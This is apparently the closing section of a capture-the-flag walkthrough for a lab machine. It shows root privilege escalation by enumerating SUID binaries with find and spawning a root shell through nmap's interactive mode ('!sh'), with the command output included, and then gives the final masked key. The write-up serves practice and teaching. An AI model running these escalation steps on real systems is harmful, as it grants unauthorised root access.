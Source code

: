 ***Key: `8*****************************9`***

### 5. Root Privilage Escalation

### Step 5.1:

To find the root user i'm searching for binary bin in order to spawn a shell

**command:** `find / -perm +6000 2>/dev/null | grep '/bin/'`

```
robot@linux:~$ find / -perm +6000 2>/dev/null | grep '/bin/'
find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap

```

### Step 5.2:

Now i can see a binary bin for `Nmap` which i can use to spawn a interactive shell.

To excute it im using `nmap` interactive method

**command:** `/usr/local/bin/nmap --interactive`

```
/usr/local/bin/nmap --interactive 

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

I found the final key `key-3-of-3` under `/root/key-3-of-3.txt`

***Key: `0*****************************4`***`

---ALL THE BEST---
